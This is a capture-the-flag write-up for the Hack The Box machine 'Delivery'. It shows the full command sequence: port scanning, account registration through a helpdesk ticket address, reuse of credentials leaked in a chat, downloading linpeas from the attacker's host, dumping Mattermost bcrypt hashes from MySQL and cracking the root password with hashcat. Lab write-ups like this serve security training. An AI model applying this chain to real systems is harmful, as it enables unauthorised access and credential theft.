






---
search:
  exclude: true
---
# Delivery Writeup

## Introduction :

Delivery is an Easy Linux box released back in January 2021.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/3 ] [~/HTB/Delivery]
    → nmap -vvv -p- 10.10.10.222 --max-retries 0 -Pn --min-rate=500 2>/dev/null | grep Discovered
    Discovered open port 80/tcp on 10.10.10.222
    Discovered open port 22/tcp on 10.10.10.222
    Discovered open port 8065/tcp on 10.10.10.222
    
    [ 10.10.14.13/23 ] [ /dev/pts/3 ] [~/HTB/Delivery]
    → nmap -sCV -p 80,22,8065 10.10.10.222
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-06 16:42 CEST
    Nmap scan report for 10.10.10.222
    Host is up (0.025s latency).
    
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
    | ssh-hostkey:
    |   2048 9c:40:fa:85:9b:01:ac:ac:0e:bc:0c:19:51:8a:ee:27 (RSA)
    |   256 5a:0c:c0:3b:9b:76:55:2e:6e:c4:f4:b9:5d:76:17:09 (ECDSA)
    |_  256 b7:9d:f7:48:9d:a2:f2:76:30:fd:42:d3:35:3a:80:8c (ED25519)
    80/tcp   open  http    nginx 1.14.2
    |_http-server-header: nginx/1.14.2
    |_http-title: Welcome
    8065/tcp open  unknown
    | fingerprint-strings:
    |   GenericLines, Help, RTSPRequest, SSLSessionReq, TerminalServerCookie:
    |     HTTP/1.1 400 Bad Request
    |     Content-Type: text/plain; charset=utf-8
    |     Connection: close
    |     Request
    |   GetRequest:
    |     HTTP/1.0 200 OK
    |     Accept-Ranges: bytes
    |     Cache-Control: no-cache, max-age=31556926, public
    |     Content-Length: 3108
    |     Content-Security-Policy: frame-ancestors 'self'; script-src 'self' cdn.rudderlabs.com
    |     Content-Type: text/html; charset=utf-8
    |     Last-Modified: Sun, 06 Jun 2021 12:18:32 GMT
    |     X-Frame-Options: SAMEORIGIN
    |     X-Request-Id: w1jipf17ppy1tgk63mkqqkxn1h
    |     X-Version-Id: 5.30.0.5.30.1.57fb31b889bf81d99d8af8176d4bbaaa.false
    |     Date: Sun, 06 Jun 2021 14:50:30 GMT
    |   HTTPOptions:
    |     HTTP/1.0 405 Method Not Allowed
    |     Date: Sun, 06 Jun 2021 14:50:30 GMT
    |_    Content-Length: 0
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port8065-TCP:V=7.91%I=7%D=6/6%Time=60BCDEDC%P=x86_64-pc-linux-gnu%r(Gen
    SF:ericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20te
    SF:xt/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x2
    SF:0Request")%r(GetRequest,DF3,"HTTP/1\.0\x20200\x20OK\r\nAccept-Ranges:\x
    SF:20bytes\r\nCache-Control:\x20no-cache,\x20max-age=31556926,\x20public\r
    SF:\nContent-Length:\x203108\r\nContent-Security-Policy:\x20frame-ancestor
    SF:s\x20'self';\x20script-src\x20'self'\x20cdn\.rudderlabs\.com\r\nContent
    SF:-Type:\x20text/html;\x20charset=utf-8\r\nLast-Modified:\x20Sun,\x2006\x
    SF:20Jun\x202021\x2012:18:32\x20GMT\r\nX-Frame-Options:\x20SAMEORIGIN\r\nX
    SF:-Request-Id:\x20w1jipf17ppy1tgk63mkqqkxn1h\r\nX-Version-Id:\x205\.30\.0
    SF:\.5\.30\.1\.57fb31b889bf81d99d8af8176d4bbaaa\.false\r\nDate:\x20Sun,\x2
    SF:006\x20Jun\x202021\x2014:50:30\x20GMT\r\n\r\n!doctype\x20html>html\x2
    SF:0lang=\"en\">head>meta\x20charset=\"utf-8\">meta\x20name=\"viewport\
    SF:"\x20content=\"width=device-width,initial-scale=1,maximum-scale=1,user-
    SF:scalable=0\">meta\x20name=\"robots\"\x20content=\"noindex,\x20nofollow
    SF:\">meta\x20name=\"referrer\"\x20content=\"no-referrer\">title>Matterm
    SF:ost/title>meta\x20name=\"mobile-web-app-capable\"\x20content=\"yes\">
    SF:meta\x20name=\"application-name\"\x20content=\"Mattermost\">meta\x20n
    SF:ame=\"format-detection\"\x20content=\"telephone=no\">link\x20re")%r(HT
    SF:TPOptions,5B,"HTTP/1\.0\x20405\x20Method\x20Not\x20Allowed\r\nDate:\x20
    SF:Sun,\x2006\x20Jun\x202021\x2014:50:30\x20GMT\r\nContent-Length:\x200\r\
    SF:n\r\n")%r(RTSPRequest,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent
    SF:-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n4
    SF:00\x20Bad\x20Request")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
    SF:nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\
    SF:r\n\r\n400\x20Bad\x20Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20
    SF:Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConn
    SF:ection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TerminalServerCookie,
    SF:67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\
    SF:x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request");
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 91.89 seconds
    
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80, so let's investigate it:

here we are hinted towards the domain name **helpdesk.delivery.htb** so let's add both the domain name and the subdomain to our hosts file:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/3 ] [~/HTB/Delivery]
    → sudo -i
    [sudo] password for nothing:
    ┌──(root💀nowhere)-[~]
    └─# echo '10.10.10.222 delivery.htb helpdesk.delivery.htb' >> /etc/hosts
    
    ┌──(root💀nowhere)-[~]
    └─# ping -c1 delivery.htb
    PING delivery.htb (10.10.10.222) 56(84) bytes of data.
    64 bytes from delivery.htb (10.10.10.222): icmp_seq=1 ttl=63 time=25.8 ms
    
    --- delivery.htb ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 25.761/25.761/25.761/0.000 ms
    
    ┌──(root💀nowhere)-[~]
    └─# ping -c1 helpdesk.delivery.htb
    PING delivery.htb (10.10.10.222) 56(84) bytes of data.
    64 bytes from delivery.htb (10.10.10.222): icmp_seq=1 ttl=63 time=29.8 ms
    
    --- delivery.htb ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 29.791/29.791/29.791/0.000 ms
    
    ┌──(root💀nowhere)-[~]
    └─# exit
    
    [ 10.10.14.13/23 ] [ /dev/pts/3 ] [~/HTB/Delivery]
    →
    

Delivery.htb is apparently the same website we found earlier, now let's take a look at helpdesk.delivery.htb:

Here we see that we are on an **osTicket** instance, let's see if we can create a ticket as a guest user:

We see that our ticket is created successfully:

Here we are given an email address that has the ticket number in it, so it might be of use later, and we can check the status of our ticket:

 

Now our nmap scan also picked up port 8065, so let's investigate it:

Here we see that we are on a Mattermost instance, so let's create an account:

Let's create an account with the ticket email address that we got provided earlier **9454299@delivery.htb** username **nihilist777** password **TestTest123*** :

Here we see that we need to check the inbox:

We get the following message:
    
    
    ---- Registration Successful ---- Please activate your email by going to: http://delivery.htb:8065/do_verify_email?token=3my3bfb461ko6q34r68mmbypuxrfbt8trmgewq5jefyy8xhbcckgyu86ozbyc8pw&email;=9454299%40delivery.htb ) --------------------- You can sign in from: --------------------- Mattermost lets you share messages and files from your PC or phone, with instant search and archiving. For the best experience, download the apps for PC, Mac, iOS and Android from: https://mattermost.com/download/#mattermostApps ( https://mattermost.com/download/#mattermostApps
    

so we go to **http://delivery.htb:8065/do_verify_email?token=3my3bfb461ko6q34r68mmbypuxrfbt8trmgewq5jefyy8xhbcckgyu86ozbyc8pw &email;=9454299%40delivery.htb** to activate the mattermost account and login:

**9454299@delivery.htb TestTest123***. Once logged in in the internal chatroom, we see that the root user posted credentials to access the server:

So let's try to login via SSH to the server with the **maildeliverer:Youve_G0t_Mail!** credentials:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/3 ] [~/HTB/Delivery]
    → ssh maildeliverer@delivery.htb
    The authenticity of host 'delivery.htb (10.10.10.222)' can't be established.
    ECDSA key fingerprint is SHA256:LKngIDlEjP2k8M7IAUkAoFgY/MbVVbMqvrFA6CUrHoM.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added 'delivery.htb,10.10.10.222' (ECDSA) to the list of known hosts.
    maildeliverer@delivery.htb's password:
    Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64
    
    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Tue Jan  5 06:09:50 2021 from 10.10.14.5
    maildeliverer@Delivery:~$ id
    uid=1000(maildeliverer) gid=1000(maildeliverer) groups=1000(maildeliverer)
    maildeliverer@Delivery:~$ ls
    user.txt
    maildeliverer@Delivery:~$ cat user.txt
    d6XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it! We managed to get the user flag.

## **Part 3 : Getting Root Access**

Now that we're on the box as the mailedliverer user, let's enumerate the box:
    
    
    maildeliverer@Delivery:~$ which wget curl python python3 nc
    /usr/bin/wget
    /usr/bin/curl
    /usr/bin/python
    /usr/bin/python3
    /usr/bin/nc
    
    

let's get linpeas.sh onto the box: 
    
    
    [term1]
    
    [ 10.10.14.13/23 ] [ /dev/pts/14 ] [~/HTB/Delivery]
    → cp /home/nothing/Tools/privilege-escalation-awesome-scripts-suite/linPEAS/linpeas.sh .
    
    [ 10.10.14.13/23 ] [ /dev/pts/14 ] [~/HTB/Delivery]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
    
    
    [term2]
    
    maildeliverer@Delivery:~$ wget http://10.10.14.13:9090/linpeas.sh -O /tmp/peas.sh
    --2021-06-07 06:23:56--  http://10.10.14.13:9090/linpeas.sh
    Connecting to 10.10.14.13:9090... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 341863 (334K) [text/x-sh]
    Saving to: ‘/tmp/peas.sh’
    
    /tmp/peas.sh                                                    100%[======================================================================================================================================================>] 333.85K  2.03MB/s    in 0.2s
    
    2021-06-07 06:23:56 (2.03 MB/s) - ‘/tmp/peas.sh’ saved [341863/341863]
    
    maildeliverer@Delivery:~$ chmod +x /tmp/peas.sh
    maildeliverer@Delivery:~$ /tmp/peas.sh
    
    

` 

Now let linpeas.sh run and then scrolling through it's output you will stumble upon mysql:

And obviously as we saw earlier, there is a mattermost instance running:

It's in **/opt/mattermost** so let's check it out:
    
    
    maildeliverer@Delivery:~$ cd /opt/mattermost
    maildeliverer@Delivery:/opt/mattermost$ ls -lash
    total 288K
    4.0K drwxrwxr-x 12 mattermost mattermost 4.0K Dec 26 09:24 .
    4.0K drwxr-xr-x  3 root       root       4.0K Dec 26 09:22 ..
    4.0K drwxrwxr-x  2 mattermost mattermost 4.0K Dec 18 08:53 bin
    4.0K drwxrwxr-x  7 mattermost mattermost 4.0K Dec 26 09:24 client
    4.0K drwxrwxr-x  2 mattermost mattermost 4.0K Dec 26 09:23 config
    4.0K drwxrwxr-x  3 mattermost mattermost 4.0K Jun  7 05:15 data
    4.0K -rw-rw-r--  1 mattermost mattermost 2.1K Dec 18 08:52 ENTERPRISE-EDITION-LICENSE.txt
    4.0K drwxrwxr-x  2 mattermost mattermost 4.0K Dec 18 08:52 fonts
    4.0K drwxrwxr-x  2 mattermost mattermost 4.0K Dec 18 08:52 i18n
    4.0K drwxrwxr-x  2 mattermost mattermost 4.0K Dec 26 09:23 logs
    4.0K -rw-rw-r--  1 mattermost mattermost  898 Dec 18 08:52 manifest.txt
    224K -rw-rw-r--  1 mattermost mattermost 224K Dec 18 08:52 NOTICE.txt
    4.0K drwxr--r--  5 mattermost mattermost 4.0K Jun  7 05:44 plugins
    4.0K drwxrwxr-x  2 mattermost mattermost 4.0K Dec 18 08:53 prepackaged_plugins
    8.0K -rw-rw-r--  1 mattermost mattermost 6.2K Dec 18 08:52 README.md
    4.0K drwxrwxr-x  2 mattermost mattermost 4.0K Dec 18 08:52 templates
    maildeliverer@Delivery:/opt/mattermost$ ls -lash config/
    total 36K
    4.0K drwxrwxr-x  2 mattermost mattermost 4.0K Dec 26 09:23 .
    4.0K drwxrwxr-x 12 mattermost mattermost 4.0K Dec 26 09:24 ..
    4.0K -rw-rw-r--  1 mattermost mattermost  922 Dec 18 08:52 cloud_defaults.json
     20K -rw-rw-r--  1 mattermost mattermost  19K Jun  7 05:15 config.json
    4.0K -rw-rw-r--  1 mattermost mattermost  243 Dec 18 08:52 README.md
    maildeliverer@Delivery:/opt/mattermost$ cat config/config.json
    

Here there is a config json file, and when we peek into it, we see the following:
    
    
    maildeliverer@Delivery:/opt/mattermost/config$ grep -A12 -i 'SqlSettings' config.json
        "SqlSettings": {
            "DriverName": "mysql",
            "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
            "DataSourceReplicas": [],
            "DataSourceSearchReplicas": [],
            "MaxIdleConns": 20,
            "ConnMaxLifetimeMilliseconds": 3600000,
            "MaxOpenConns": 300,
            "Trace": false,
            "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
            "QueryTimeout": 30,
            "DisableDatabaseSearch": false
        },
    
    

Here we get the MySQL credentials **mmuser:Crack_The_MM_Admin_PW** , and an obvious hint that we need to crack the password we're about to find in the MySQL database:
    
    
    maildeliverer@Delivery:/opt/mattermost/config$ mysql -u 'mmuser' -p
    Enter password:
    Welcome to the MariaDB monitor.  Commands end with ; or \g.
    Your MariaDB connection id is 75
    Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10
    
    Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.
    
    Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
    
    MariaDB [(none)]> show databases;
    +--------------------+
    | Database           |
    +--------------------+
    | information_schema |
    | mattermost         |
    +--------------------+
    2 rows in set (0.001 sec)
    
    MariaDB [(none)]> use mattermost;
    Reading table information for completion of table and column names
    You can turn off this feature to get a quicker startup with -A
    
    Database changed
    MariaDB [mattermost]> select USERNAME,Password FROM Users;
    +----------------------------------+--------------------------------------------------------------+
    | USERNAME                         | Password                                                     |
    +----------------------------------+--------------------------------------------------------------+
    |**nihilist777                          | $2a$10$dY8WN1vLdd0ZlEd0m53.ouWZXUVIgFHvMguur2g11CwssN0CdZA8q** |
    | surveybot                        |                                                              |
    | c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
    | 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
    |**root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO** |
    | ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
    | channelexport                    |                                                              |
    | 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
    +----------------------------------+--------------------------------------------------------------+
    8 rows in set (0.000 sec)
    

Here we see our account's hashed password, but we also see the root user's hashed password, so let's save it locally:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/14 ] [~/HTB/Delivery]
    → vim roothash
    
    [ 10.10.14.13/23 ] [ /dev/pts/14 ] [~/HTB/Delivery]
    → cat roothash
    $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO
    
    [ 10.10.14.13/23 ] [ /dev/pts/14 ] [~/HTB/Delivery]
    → hash-identifier
       #########################################################################
       #     __  __                     __           ______    _____           #
       #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
       #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
       #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
       #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
       #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
       #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
       #                                                             By Zion3R #
       #                                                    www.Blackploit.com #
       #                                                   Root@Blackploit.com #
       #########################################################################
    --------------------------------------------------
     HASH: $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO
    
     Not Found.
    --------------------------------------------------
    

Suprisingly hash-id can't identify the type of hash here, so let's identify it [online](https://hashes.com/en/tools/hash_identifier):

So now we know that this is probably the **bcrypt $2*$** or **Blowfish (Unix)** algorithms. Looking back at the conversation we saw earlier, we remember that the root user was talking about the **PleaseSubscribe!** password "variant"

So we can assume that the password used here is **PleaseSubscribe!** with some extra characters after it. Let's test that out with hashcat:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/14 ] [~/HTB/Delivery]
    → echo 'PleaseSubscribe!' > pass.lst
    
    [ 10.10.14.13/23 ] [ /dev/pts/14 ] [~/HTB/Delivery]
    → cat pass.lst
    
    [ 10.10.14.13/23 ] [ /dev/pts/14 ] [~/HTB/Delivery]
    → hashcat --stdout pass.lst -r /usr/share/hashcat/rules/best64.rule > custom.lst
    
    [ 10.10.14.13/23 ] [ /dev/pts/14 ] [~/HTB/Delivery]
    → hashcat -m 3200 -a 3 "$(cat roothash)" custom.lst
    hashcat (v6.1.1) starting...
    
    [...]
    
    The wordlist or mask that you are using is too small.
    This means that hashcat cannot use the full parallel power of your device(s).
    Unless you supply more work, your cracking speed will drop.
    For tips on supplying more work, see: https://hashcat.net/faq/morework
    
    Approaching final keyspace - workload adjusted.
    
    **$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21**
    
    Session..........: hashcat
    Status...........: Cracked
    Hash.Name........: bcrypt $2*$, Blowfish (Unix)
    Hash.Target......: $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v...JwgjjO
    Time.Started.....: Mon Jun  7 12:42:41 2021 (1 sec)
    Time.Estimated...: Mon Jun  7 12:42:42 2021 (0 secs)
    Guess.Mask.......: PleaseSubscribe!21 [18]
    Guess.Queue......: 21/77 (27.27%)
    Speed.#1.........:        1 H/s (2.61ms) @ Accel:2 Loops:4 Thr:12 Vec:1
    Recovered........: 1/1 (100.00%) Digests
    Progress.........: 1/1 (100.00%)
    Rejected.........: 0/1 (0.00%)
    Restore.Point....: 0/1 (0.00%)
    Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1020-1024
    Candidates.#1....: PleaseSubscribe!21 -> PleaseSubscribe!21
    Hardware.Mon.#1..: Temp: 41c Fan:  0% Util:100% Core:1797MHz Mem:3504MHz Bus:16
    
    Started: Mon Jun  7 12:42:20 2021
    Stopped: Mon Jun  7 12:42:43 2021
    

And we found the password! **PleaseSubscribe!21** so let's try to login as the root user:
    
    
    maildeliverer@Delivery:/opt/mattermost/config$ su
    Password:
    root@Delivery:/opt/mattermost/config# id
    uid=0(root) gid=0(root) groups=0(root)
    root@Delivery:/opt/mattermost/config# cat /root/root.txt
    c8XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it! We managed to privesc to the root user, and get the root flag.

## **Conclusion**

Here we can see the progress graph :

